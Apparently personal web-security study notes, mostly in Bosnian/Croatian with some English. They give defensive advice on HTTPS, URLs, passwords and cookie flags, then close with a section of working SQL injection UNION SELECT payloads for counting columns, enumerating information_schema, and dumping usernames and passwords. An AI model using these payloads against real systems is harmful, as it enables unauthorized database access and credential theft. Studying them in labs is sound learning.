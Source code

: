 
PREDOBROOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO:
https://portswigger.net/web-security/learning-path

https://www.youtube.com/watch?v=2PPSXonhIck


Ekstra knjiga za identity management:  
Keycloak - Identity and Access Management for Modern Applications: Harness the power of Keycloak, OpenID Connect, and OAuth 2.0 protocols to secure applications

## HTTPS
Always use HTTPS protocol.  
Avoid lots of troubles with man-in-the-middle attack.  


## URLs

Don't send *sensitive data* in URLs:
- username/password
- security/session/jwt token

Why?
- they can be logged in user's history, server logs, proxies etc.


## Passwords

Reset passworda je MUST HAVE:
- ako user zaboravi pwd
- periodično NATJERAT usera da promijeni password
- ako je neko skonto password, za 7 dana neće biti validan -> stonks

Slanje passworda na mail -> NO
Predvidivi generisani passwordi -> NO

## Usernames
Nejedinstveni username -> WTF IS WRONG WITH YOU?

## Cookies
Koristi HTTPS, jer session hijacking..  
Koristi `Secure` atribut da **osiguramo da će browser slati ga samo preko TLS**.  
Koristi `HttpOnly` atribut da **osiguramo da ga JS ne može čitati/pisati** sa `document.cookie` (XSS stonks).  
Koristi `SameSite` : Lax/Strict

Ne koristi `Path` atribut za security. Tj setuj ga samo na `Path=/`  
Ne koristi `Domain` atribut (poddomena može bit hakovana i zarazit ostale domene..).

------------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------------
## JWTs are bullshit (for sessions)

- Logout? -> NO
- Change roles -> NO (fuck you, this is STILL a valid token.. :) )


------------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------------
HACKING stuff
------------------------------------------------------------------------------------------------------------
# SQL injection

## UNION SELECT napad

### Skontaš broj kolona
```sql
' ORDER+BY+3--
```
ili
```sql
'+UNION+SELECT+NULL,NULL--
```
(kod Oracle MORA 'SELECT .. FROM DUAL')
dok ne potrefiš broj kolona...

### Skontaš koja kolona je string (obično)

```sql
' UNION SELECT NULL,NULL,'a',NULL--
```

dok ne potrefiš koja kolona paše.. :)

### UNION SELECT
```sql
' UNION SELECT username, password FROM users--
```

### Browsing the db schema

'+UNION+SELECT+NULL,table_name+FROM+information_schema.tables--
--> users_lqlezz npr

'+UNION+SELECT+NULL,column_name+FROM+information_schema.columns+WHERE+table_name='users_lqlezz'--
--> username_jyfedi,password_fxqtrq

' UNION SELECT username_jyfedi,password_fxqtrq FROM users_lqlezz--

ORACLE:
all_tables i all_tab_columns


